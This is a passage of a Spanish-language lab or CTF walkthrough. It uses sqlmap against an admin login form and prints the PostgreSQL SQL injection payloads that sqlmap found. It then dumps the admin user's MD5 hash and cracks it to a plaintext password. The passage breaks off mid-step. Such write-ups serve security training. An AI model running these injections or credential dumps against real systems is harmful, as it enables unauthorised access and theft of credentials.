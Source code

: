 Debido a que en el panel administrativo no he visto nada interesante, voy a usar `sqlmap` para que me `enumere` las `bases de datos`

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --dbs --batch --data "username=*&password=*" 

[*] information_schema
[*] pg_catalog
[*] public
```

`Sqlmap` ha identificado estos tipos de `inyecciones sql`

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-3463' OR 6802=6802-- qZyo&password=

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=' AND 5733=CAST((CHR(113)||CHR(122)||CHR(113)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5733=5733) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(122)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC)-- nWHD&password=

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=';SELECT PG_SLEEP(5)--&password=

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=' AND 2020=(SELECT 2020 FROM PG_SLEEP(5))-- rxkb&password=
```

En la base de datos `public` he encontrado las `credenciales` del usuario `admin`

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --dbs --batch --data "username=*&password=*" -D public -T users -C password,username --dump

+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

Este es un `hash MD5` y en [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) he podido obtener la `contraseña` usando `rainbow tables`

```
4a100a85cb5ca3616dcf137918550815:iamzeadmin
```

Con `sqlmap` he listado el usuario en uso
